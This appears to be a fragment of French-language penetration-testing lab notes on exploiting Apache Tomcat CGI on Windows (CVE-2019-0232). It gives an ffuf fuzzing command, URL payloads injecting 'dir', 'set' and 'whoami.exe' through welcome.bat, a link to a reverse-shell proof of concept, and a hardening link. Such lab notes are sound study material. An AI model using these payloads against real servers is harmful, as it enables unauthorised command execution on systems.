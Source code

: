 ```shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

#### Command Injection

Si script CGI identifié, par exemple welcome.bat -> injecter commande

```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

identifier les variables d'environnement 

```http
 http://10.129.204.227:8080/cgi/welcome.bat?&set
```

Si variable path non définie, obligé de préciser les chemins absolu

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

si caractère invalide -> url encode

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

#### PoC Reverse Shell

https://github.com/jaiguptanick/CVE-2019-0232


---

# HARDENING

https://tomcat.apache.org/tomcat-9.0-doc/security-howto.html